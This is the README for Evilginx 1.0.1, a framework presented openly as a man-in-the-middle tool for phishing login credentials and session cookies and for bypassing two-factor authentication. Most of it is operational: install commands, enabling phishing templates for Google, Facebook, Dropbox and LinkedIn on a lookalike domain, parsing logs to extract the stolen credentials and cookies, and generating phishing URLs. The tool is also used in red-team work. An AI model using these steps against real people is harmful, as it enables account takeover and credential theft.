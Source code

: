 ## Evilginx v.1.0.1

![Evilginx](/img/evilginx-title.png?raw=true "Evilginx")

Evilginx is a man-in-the-middle attack framework used for phishing credentials and session cookies of any web service. It's core runs on Nginx HTTP server, which utilizes `proxy_pass` and `sub_filter` to proxy and modify HTTP content, while intercepting traffic between client and server.

You can learn how it works and how to install everything yourself on my blog:

First post slightly outdated now: [Evilginx - Advanced Phishing With Two-factor Authentication Bypass](https://breakdev.org/evilginx-advanced-phishing-with-two-factor-authentication-bypass/)

Evilginx 1.0 Update: [Evilginx 1.0 Update - Up Your Game in 2FA Phishing](https://breakdev.org/evilginx-1-0-update-up-your-game-in-2fa-phishing)

#### Installation

Evilginx provides an installation script `install.sh` that takes care of installing the whole package on any Debian wheezy/jessie machine, in fire and forget manner.

```
git clone https://github.com/kgretzky/evilginx
cd evilginx
chmod 700 install.sh
./install.sh
```

#### Usage

```
            _ _       _            
           (_) |     (_)           
  _____   ___| | __ _ _ _ __ __  __
 / _ \ \ / / | |/ _` | | '_ \\ \/ /
|  __/\ V /| | | (_| | | | | |>  < 
 \___| \_/ |_|_|\__, |_|_| |_/_/\_\
                 __/ |             
 by @mrgretzky  |___/          v1.0

usage: evilginx.py [-h] {setup,parse,genurl} ...

positional arguments:
  {setup,parse,genurl}
    setup               Configure Evilginx.
    parse               Parse log file(s).
    genurl              Generate phishing URL.

optional arguments:
  -h, --help            show this help message and exit
```

###### Setup

Enable or disable site configurations for use with Nginx server, using supplied Evilginx templates from `sites` directory.

```
usage: evilginx.py setup [-h] [-d DOMAIN] [-y]
                         (-l | --enable ENABLE | --disable DISABLE)

optional arguments:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Your phishing domain.
  -y                    Answer all questions with 'Yes'.
  -l, --list            List available supported apps.
  --enable ENABLE       Enable following site by name.
  --disable DISABLE     Disable following site by name.
```

List available site configuration templates:
```
python evilginx.py setup -l

Listing available supported sites:

 - dropbox (/root/evilginx/sites/dropbox/config)
   subdomains: www
 - google (/root/evilginx/sites/google/config)
   subdomains: accounts, ssl
 - facebook (/root/evilginx/sites/facebook/config)
   subdomains: www, m
 - linkedin (/root/evilginx/sites/linkedin/config)
   subdomains: www
```

Enable google phishing site with preregistered phishing domain `not-really-google.com`:
```
python evilginx.py setup --enable google -d not-really-google.com
```

Disable facebook phishing site:
```
python evilginx.py setup --disable facebook
```

###### Parse

Parse Nginx logs to extract intercepted login credentials and session cookies. Logs, by default, are saved in `logs` directory, where `evilginx.py` script resides.
This can be done automatically after you enable auto-parsing in the **Setup** phase.

```
usage: evilginx.py parse [-h] -s SITE [--debug]

optional arguments:
  -h, --help            show this help message and exit
  -s SITE, --site SITE  Name of site to parse logs for ('all' to parse logs
                        for all sites).
  --debug               Does not truncate log file after parsing.
```

Parse logs only for google site:
```
python evilginx.py parse -s google
```

Parse logs for all available sites:
```
python evilginx.py parse -s all
```

###### Generate URL

Generate phishing URLs that you can use in your Red Team Assessments.

```
usage: evilginx.py genurl [-h] -s SITE -r REDIRECT

optional arguments:
  -h, --help            show this help message and exit
  -s SITE, --site SITE  Name of site to generate link for.
  -r REDIRECT, --redirect REDIRECT
                        Redirect user to this URL after successful sign-in.
```

Generate google phishing URL that will redirect victim to rick'roll video on successful login:
```
python evilginx.py genurl -s google -r https://www.youtube.com/watch?v=dQw4w9WgXcQ

Generated following phishing URLs:

 : https://accounts.not-really-google.com/ServiceLogin?rc=0aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g_dj1kUXc0dzlXZ1hjUQ
 : https://accounts.not-really-google.com/signin/v2/identifier?rc=0aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g_dj1kUXc0dzlXZ1hjUQ
```